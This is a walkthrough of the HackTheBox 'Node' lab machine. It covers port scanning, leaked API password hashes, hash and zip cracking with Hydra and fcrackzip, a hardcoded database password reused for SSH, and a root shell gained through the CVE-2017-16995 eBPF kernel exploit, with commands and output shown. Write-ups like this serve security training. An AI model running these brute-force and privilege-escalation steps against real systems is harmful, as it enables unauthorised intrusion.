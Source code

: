 # Hackthebox Node

## Enumeration

First do the standard portscanning of every tcp port on the system.

```
$ nmap -Pn -A -T4 -p- 10.129.173.248                                                                                          1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-08 11:03 EST
Nmap scan report for 10.129.173.248
Host is up (0.037s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing through the api it seems the user infomation is left open 

```
http://10.129.173.248:3000/api/users/

	
0	
_id	"59a7365b98aa325cc03ee51c"
username	"myP14ceAdm1nAcc0uNT"
password	"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af"
is_admin	true
1	
_id	"59a7368398aa325cc03ee51d"
username	"tom"
password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
is_admin	false
2	
_id	"59a7368e98aa325cc03ee51e"
username	"mark"
password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
is_admin	false
3	
_id	"59aa9781cced6f1d1490fce9"
username	"rastating"
password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
is_admin	false
```

Throwing the admin hash to a rainbow table (https://crackstation.net/) shows it is a sha256 and the password is manchester.

Could also do

```
cat myfiles.backup | base64 -d > backup
```

I tried to bruteforce the password with Hydra to get to know the syntax, but this just hangs after the last password it processes

```
$ hydra -v -V -l "myP14ceAdm1nAcc0uNT" -P "pwdfile" -s 3000 10.129.173.248 http-form-post "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:F=failed:C=Cookie"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-08 12:59:39
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking http-post-form://10.129.173.248:3000/api/session/authenticate:{"username"\:"^USER^","password"\:"^PASS^"}:F=failed:C=Cookie
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.129.173.248 - login "myP14ceAdm1nAcc0uNT" - pass "Manchester" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target 10.129.173.248 - login "myP14ceAdm1nAcc0uNT" - pass "manchester" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target 10.129.173.248 - login "myP14ceAdm1nAcc0uNT" - pass "testtest" - 3 of 3 [child 2] (0/0)
```

The format of authentication message

```
POST /api/session/authenticate HTTP/1.1
Host: 10.129.173.248:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 35
Origin: http://10.129.173.248:3000
Connection: close
Referer: http://10.129.173.248:3000/login
Cookie: connect.sid=s%3AIispHcNPslsW_3GdDXsxjJwQVMU3L16H.goQuR4VvCnRnZCnTbTl%2BG5%2BaGILn%2Fw6zksDofWnfXbI

{"username":"asd","password":"asd"}
```

The backup file is base64 encoded and running it through https://www.64baser.com/decode/upload/ reveals it is a zip file. Unfortunately the zip is password protected. This is quickly bruteforced with fcrackzip though.

```
$ fcrackzip -D -u -p /usr/share/wordlists/rockyou.txt myplace 

PASSWORD FOUND!!!!: pw == magicword
```

I looking through the files we can find mark's password from one of the constants

```
$ grep mark *                                                                                                 
app.js:const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

## Initial Access

Using mark's password we found we can login using ssh

```
$ ssh mark@10.129.173.248 
mark@10.129.173.248's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

		...

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ whoami
mark
mark@node:~$ uname -a
Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
mark@node:~$ 
```

The user flag is in tom's home directory but we don't have permissions to read it

```
mark@node:~$ ls -al /home/tom/user.txt 
-rw-r----- 1 root tom 33 Sep  3  2017 /home/tom/user.txt
```



## Privilege Escalation

### Method 1: kernel exploit cve-2017-16995

Linux exploit suggester shows several kernel vulnerabilities, which all do not work. This however does

```
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

Copy the file to the target host, rename, compile and execute

```
mark@node:/tmp$ gcc cve-2017-16995.c -o cve-2017-16995-exploit
mark@node:/tmp$ chmod a+x cve-2017-16995-exploit 
mark@node:/tmp$ ./cve-2017-16995-exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880027e26700
[*] Leaking sock struct from ffff88000089a000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880025664840
[*] UID from cred structure: 1001, matches the current: 1001
[*] hammering cred structure at ffff880025664840
[*] credentials patched, launching shell...
# whoami
root
# ls -al /root/root.txt
-rw-r----- 1 root root 33 Sep  3  2017 /root/root.txt
```




